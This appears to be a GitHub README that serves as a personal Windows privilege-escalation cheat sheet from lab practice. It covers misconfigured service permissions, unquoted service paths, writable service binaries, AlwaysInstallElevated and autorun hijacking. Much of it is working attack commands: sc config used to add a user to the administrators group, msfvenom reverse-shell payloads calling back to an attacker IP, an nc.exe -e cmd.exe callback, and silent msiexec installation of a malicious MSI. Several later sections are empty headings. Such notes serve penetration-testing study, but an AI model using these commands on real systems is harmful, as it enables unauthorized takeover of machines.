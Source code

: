 For Windows Priviledge Escalation guide you can follow these two posts:


1-https://www.fuzzysecurity.com/tutorials/16.html


2-https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/


HERE'S HOW I APPROACH FOR ESCALATING PRIVILEDGES:

![Windows_priv_esc_password_credentials](https://user-images.githubusercontent.com/55708909/92549895-fb567a00-f277-11ea-947d-8929d12b723d.png)


1- Services (binpath):
-----------------------------------------------------------------------
         First transfer the accesschk64.exe to system 
   
         Run accesschk64.exe -accepteula
   
         Run accesschk64.exe -wvuc "Service name"       accesschk64.exe -wvuc daclsvc
   
   ![Service(BIn_Path)](https://user-images.githubusercontent.com/55708909/92556310-390ecf00-f287-11ea-8a85-1af55670e7aa.png)

          You will see that everyone has read and write permission to change SERVICE_CHANGE_CONFIG
          
          Write this: sc config daclsvc binPath= "net localgroup administrators user /add"
          
          Then write this : sc start daclsvc 
          
          You will be added to admin group 

![Service(BIn_Path_1)](https://user-images.githubusercontent.com/55708909/92556850-8c355180-f288-11ea-982b-b02fd5864ca2.png)


2- Services (Unquoted path):
---------------------------------------------------------------------------------------
          For it to work we need to identify which are the path which are not included in quotes
          
          wmic service get name,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """
          
 ![Service(Unquoted_path)](https://user-images.githubusercontent.com/55708909/92557524-05817400-f28a-11ea-9d03-b9f21efc8826.png)

          First transfer nc.exe to C:\Users\user directory
          
          msfvenom -p windows/exec CMD="C:\Users\user\nc.exe 10.9.14.98 443 -e cmd.exe" -f exe-service > common.exe
          
          Transfer the common.exe to C:\Program Files\Unquoted Path Service
          
          type sc start unquotedsvc
          
 ![Service(Unquoted_path_1)](https://user-images.githubusercontent.com/55708909/92558713-c3a5fd00-f28c-11ea-9423-fe436ac65491.png)
         
          

3- Service (Registry):
-------------------------------------------------------------------------------------------

4- Services( Executable files):
---------------------------------------------------------------------------------------------
          
           Transfer the accesschk.exe to pc and check for weak executable service
           
![Service(Executable)](https://user-images.githubusercontent.com/55708909/92559368-1a600680-f28e-11ea-940d-2472ece84622.png)
 
            We notice that everyone has read and write access to filepermservice.exe
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > filepermservice.exe
            
            transfer filepermservice.exe to target system
            
            copy /y filepermservice.exe "C:\Program Files\File Permissions Service"

            sc start filepermsvc 
            
![Service(Executable_1)](https://user-images.githubusercontent.com/55708909/92560004-45972580-f28f-11ea-88fd-f5c365dd41ef.png)

           
5- Registry (Always installed elevated):
---------------------------------------------------------------------------------------------
            
            reg query HKLM\Software\Policies\Microsoft\Windows\Installer
            
            reg query HKCU\Software\Policies\Microsoft\Windows\Installer
            
            If they gave output as 1 then this means we can create our payload in msi format and can escalate priv
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f msi > access.msi

            Transfer it to target machine
            
            msiexec /quiet /qn /i C:\Users\user\access.msi
 
            Netcat session with admin rights
            
![Registry(Always_install)](https://user-images.githubusercontent.com/55708909/92560985-ef2ae680-f290-11ea-8166-aeb34190e869.png)
            
6- Registry (Modified autorun): Need to have admin login to work
-------------------------------------------------------------------------------------------------
             
   ![REgistry_auto_run](https://user-images.githubusercontent.com/55708909/92561769-72007100-f292-11ea-919a-444e7874cd5b.png)
   
             As you can see everyone has read and write to program.exe this means simply replace that executable
              
             with your version of executable and wait for admin to login and have admin rights

7- Password minig (Registry):
-------------------------- -----------------------------------------------------------------

![Password_mining(REgistry)](https://user-images.githubusercontent.com/55708909/92564190-66af4480-f296-11ea-9139-eea67ec26650.png)

             
8- Password mining (Memory)
-----------------------------------------------------------------------------------------
          

9- Password mining (Configuration Files):
------------------------------------------------------------------------------------------
        
![Password_mining(Configuration)](https://user-images.githubusercontent.com/55708909/92562987-7ded3280-f294-11ea-9a0e-b9551fae7529.png)

![Password_mining(Configuration_1)](https://user-images.githubusercontent.com/55708909/92563469-3e731600-f295-11ea-98ad-8517e167fc2f.png)

            
10- Scheduled tasks (Missing binary):
------------------------------------------------------------------------------------------

        While checking for schedule task we found one of the binary missings.
        
 ![Windows_Priv_Esc_scheduled_task_missing_binary](https://user-images.githubusercontent.com/55708909/92596152-04b90400-f2c3-11ea-8f25-7d4b8ac8379b.png)
       
        
        

11- Startup applications:
--------------------------------------------------------------------------------------------

12- Potato attacks:
--------------------------------------------------------------------------------------------

13- DLL Hijacking:
----------------------------------------------------------------------------------------------

14-Kernel exploits:
----------------------------------------------------------------------------------------------
